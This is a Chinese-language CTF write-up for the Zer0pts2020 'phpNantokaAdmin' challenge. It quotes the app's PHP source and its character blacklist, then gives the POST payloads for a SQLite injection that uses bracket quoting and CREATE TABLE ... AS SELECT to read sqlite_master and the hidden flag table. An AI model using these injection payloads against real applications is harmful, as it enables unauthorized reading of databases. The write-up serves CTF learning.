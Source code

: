 ```yaml
---
title: '[Zer0pts2020]phpNantokaAdmin'
date: 2025-02-05 15:25:46
tags: sql注入
categories: 刷题笔记
---
```


## [Zer0pts2020]phpNantokaAdmin

题目是一个sqlite的数据库管理工具，实现的功能只有table的创建，展示，record的插入

查看代码

```php
 <?php
  $pdo->query('CREATE TABLE `' . FLAG_TABLE . '` (`' . FLAG_COLUMN . '` TEXT);');
  $pdo->query('INSERT INTO `' . FLAG_TABLE . '` VALUES ("' . FLAG . '");');
  $pdo->query($sql);
```

我们发现flag在FLAG_TABLE表中,表名和列名是config.php中定义的常量，此外

```php
<?php

  $pdo = new PDO('sqlite:db/' . $_SESSION['database']);
  $stmt = $pdo->query("SELECT name FROM sqlite_master WHERE type='table' AND name <> '" . FLAG_TABLE . "' LIMIT 1;");
  $table_name = $stmt->fetch(PDO::FETCH_ASSOC)['name'];

  $stmt = $pdo->query("PRAGMA table_info(`{$table_name}`);");
  $column_names = $stmt->fetchAll(PDO::FETCH_ASSOC);

```

这样限制了可以展示的表仅限于flag表之外用户创建的表

在index.php;中可以看出，创建表时的表名，列名，列类型可能存在sql注入

```php
<?php
︙
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }

  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
︙
```

但是，参数使用了untils.php中定义的is_vaild函数进行了一次检查，禁用了一些特殊字符

```php
<?php

function is_valid($string) {
  $banword = [
    // comment out, calling function...
    "[\"#'()*,\\/\\\\`-]"
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $string)) {
    return false;
  }
  return true;
}

```

首先我们fuzz一下能够通过is_vaild函数的字符

```php
<?php
function is_valid($string) {
  $banword = [
    // comment out, calling function...
    "[\"#'()*,\\/\\\\`-]"
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $string)) {
    return false;
  }
  return true;
}

$res = '';
for ($i = 0x20; $i < 0x7f; $i++) {
  $c = chr($i);
  if (is_valid($c)) {
    $res .= $c;
  }
}

echo $res . "\n";
// !$%&+.0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[]^_abcdefghijklmnopqrstuvwxyz{|}~
```

注意：`[`和`]`可以使用，在sqlite中，可以使用`[`和`]`代替反引号来包裹字符

此外：sqlite中可以使用`create table ... as`这样的用法，从其它的表的内容来创建新的表

利用这些，在创建表时，`table t as select sql[列名abc，列类型] from sqlite_master;`,这样拼接成功后的sql语句为：

```sql
CREATE TABLE t AS SELECT sql [ (dummy1 TEXT, dummy2 TEXT, `abc` ]FROM sqlite_master;);
```

等价于`create table t as select sql from sqlite_master;`,`(dummy1…`被解释为sql的别名。这样在展示表时可以获得插入flag时的语句，其中包括flag表名和列名

所以我们在创建表时post传

```
table_name=[aaa] as select [sql][&columns[0][name]=]from sqlite_master;&columns[0][type]=2

```

得到了表名和字段名

![image-20250316195626031](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503161956159.png)

然后我们用同样的方法查看flag（需要先把之前那个表删掉）

```
table_name=[aaa] as select [flag_2a2d04c3][&columns[0][name]=]from  flag_bf1811da;&columns[0][type]=2
```

得到flag

![image-20250316195831776](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503161958854.png)

## sqlite bypass技巧

select的时候，当列名用空白字符隔开时，sqlite只会把空格之前的字符当做列名，并且忽视空格后的字符

![img](https://img2020.cnblogs.com/blog/1270588/202005/1270588-20200508173324508-2113315362.png)
